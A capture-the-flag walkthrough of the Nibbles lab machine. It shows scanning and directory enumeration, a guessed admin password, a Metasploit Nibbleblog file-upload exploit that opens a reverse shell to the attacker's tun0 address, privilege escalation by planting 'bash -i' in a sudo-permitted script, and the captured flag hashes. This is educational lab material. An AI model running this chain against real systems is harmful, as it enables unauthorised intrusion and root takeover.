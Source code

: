 ## IP

> 10.10.10.75

## nmap scan

```
nmap -T4 -A 10.10.10.75 -Pn
```

```a
Nmap scan report for 10.10.10.75
Host is up (0.060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## System Info 
>
 OS: Linux

## Open Ports
       
> 22 open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)

SSH

>80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

HTTP

## HTTP

> http://10.10.10.75/

![[Pasted image 20210801184218.png]]

If we see the source we can find 

> !-- /nibbleblog/ directory. Nothing interesting here! 

So lets check it!
 http://10.10.10.75/nibbleblog/

![[Pasted image 20210801184400.png]]

We can perform a gobuster on the site

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirb/common.txt
```

> /.hta                 
/.htaccess          
/.htpasswd           
/admin                 [--> http://10.10.10.75/nibbleblog/admin/]
/admin.php                                     
/content              [--> http://10.10.10.75/nibbleblog/content/]
/index.php                                              
/languages          [--> http://10.10.10.75/nibbleblog/languages/]
/plugins               [--> http://10.10.10.75/nibbleblog/plugins/]  
/README                                        
/themes                [--> http://10.10.10.75/nibbleblog/themes/]

We can try to connect into the admin site 

> username: admin

We can try different passwords, I tried nibbles and it worked! 
> password: nibbles 

Lets search in searchsploit

```searchsploit nibble```

> Nibbleblog 3 - Multiple SQL Injections                                           | php/webapps/35865.txt
Nibbleblog 4.0.3 - Arbitrary File Upload (Metasploit)                            | php/remote/38489.rb

An arbitrary file upload on metasploit, lets search for it 

### Metasploit 

```
msfconsole
use multi/http/nibbleblog_file_upload
set password nibbles
set username admin
set rhosts 10.10.10.75
set lhost tun0
set targeturi /nibbleblog
run
```

We have a shell!!

### Post Exploitation

```getuid```

> Server username: nibbler (1001)

We are not root

```sysinfo```

>Computer    : Nibbles                                                                                              
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64                  
Meterpreter : php/linux

### Finding user.txt

```
shell
cd home/nibbler
cat user.txt
```

> 5d9d3519f7fdf0a13d25bac3224e41af

### Getting root

```history```

> Command not found 

```sudo -l```

> User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
	
So we can root monitor.sh as root! Lets create it

```
cd /home/nibbler
mkdir personal
cd personal
mkdir stuff
cd stuff
echo "bash -i" > monitor.sh
chmod +x monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

```whoami```

> root

We are root!

### Finding root.txt

```
cd /root
cat root.txt
```

> aaba32402a5016d5b621fa8b965d680a  